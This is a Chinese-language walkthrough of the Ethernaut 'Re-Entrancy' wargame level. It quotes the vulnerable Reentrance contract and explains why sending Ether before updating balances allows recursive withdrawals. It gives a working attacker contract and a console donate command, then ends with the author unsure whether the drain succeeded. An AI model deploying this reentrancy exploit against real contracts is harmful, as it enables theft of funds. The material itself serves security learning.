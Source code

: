 终于到了合约中最牛逼的一个漏洞！！！

> The goal of this level is for you to steal all the funds from the contract.
>
>  Things that might help:
>
> - Untrusted contracts can execute code where you least expect it.
> - Fallback methods
> - Throw/revert bubbling
> - Sometimes the best way to attack a contract is with another contract.
> - See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```



问题就在于 是先call发完钱后，再更新的balance。而call会调用目标合约的fallback！ 可以一直递归调用！

由于用的call，所以gas limit是要大于transfer的2300的，所以可以递归调用很多次！



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrancy {
    function withdraw(uint256 _amount) external ;  
} 
contract reEntrance{
    address payable levelInstance;
    constructor(address payable _levelInstance) {
        levelInstance = _levelInstance;
    }
    
    function attack(uint256 _amount) payable public {
        IReentrancy(levelInstance).withdraw(_amount);
    }

    receive() external payable {
        IReentrancy(levelInstance).withdraw(msg.value);
    } 
}
```

部署完后，console调用 donate，向攻击合约的地址转点钱：

```
await contract.donate("0x86FFC485b32d121e8525f67860F093400EF69879",{value:toWei("0.5")})
```



然后 attack。

填 `5000000000000000 ` (0.005 eth)

![image-20250302160157705](./Re-Entrancy/images/image-20250302160157705.png)



嘶，取了一大笔啊，为什么还是不成功呢？

![image-20250302160923106](./Re-Entrancy/images/image-20250302160923106.png)



是要多取几次么？

可以用 await getBalance(contract.address) 看合约的余额。

emmm。。。



已经成功了啊。。。![image-20250328130926924](./Re-Entrancy/images/image-20250328130926924.png)



是不是和foundry写poc时遇到同样的问题，过程中是成功的，但是，最后却失败（即没有拿到token。。。）